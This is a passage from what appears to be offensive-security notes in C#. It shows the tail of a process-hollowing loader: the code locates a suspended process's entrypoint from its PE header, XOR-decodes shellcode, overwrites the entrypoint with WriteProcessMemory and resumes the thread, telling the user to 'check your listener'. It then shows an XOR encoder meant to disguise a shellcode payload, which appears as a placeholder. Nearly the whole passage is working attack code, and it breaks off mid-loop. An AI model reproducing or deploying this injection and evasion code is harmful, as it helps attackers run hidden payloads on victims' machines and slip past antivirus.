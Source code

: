 ```csharp
            uint rvaOffset = e_lfanew + 0x28;
            Console.WriteLine($"DEBUG: RVA offset: {"0x" + rvaOffset.ToString("x")}.");

            // 4. Read the 4 bytes (UInt32) at the RVA offset to get the offset of the executable entrypoint from the executable address
            uint rva = BitConverter.ToUInt32(dataBuf, (int)rvaOffset);
            Console.WriteLine($"DEBUG: RVA value: {"0x" + rva.ToString("x")}.");

            // 5. Get the absolute address of the entrypoint by adding this value to the base executable address. Success!
            IntPtr entrypointAddr = (IntPtr)((Int64)executableAddress + rva);
            Console.WriteLine($"Got executable entrypoint address: {"0x" + entrypointAddr.ToString("x")}.");

            // Carrying on, decode the XOR payload
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)((uint)buf[i] ^ 0xfa);
            }
            Console.WriteLine("XOR-decoded payload.");

            // Overwrite the memory at the identified address to 'hijack' the entrypoint of the executable
            result = WriteProcessMemory(pInfo.hProcess, entrypointAddr, buf, buf.Length, out bytesRW);
            Console.WriteLine($"Overwrote entrypoint with payload. Success: {result}.");

            // Resume the thread to trigger our payload
            uint rResult = ResumeThread(pInfo.hThread);
            Console.WriteLine($"Triggered payload. Success: {rResult == 1}. Check your listener!");
        }
    }
}
```

## Shellcode Encryption

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace XOR_Encryptor
{
    internal class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[642] { <PAYLOAD> };


            // Encode the payload with XOR (fixed key)
            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)((uint)buf[i] ^ 0xff);
            }

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            int totalCount = encoded.Length;
            for (int count = 0; count < totalCount; count++)
```